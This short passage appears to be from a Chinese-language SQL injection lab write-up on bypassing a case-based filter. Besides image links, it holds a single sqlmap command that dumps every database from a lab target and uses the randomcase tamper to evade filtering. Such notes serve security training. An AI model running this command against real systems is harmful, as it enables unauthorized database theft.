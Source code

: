 ![image-20250904192247974](images/image-20250904192247974.png)





# 大小写过滤

```
python sqlmap.py -u "http://192.168.126.138/sqli/08.php?id=1" --dump-all --tamper=randomcase
```

![image-20250904192617629](images/image-20250904192617629.png)



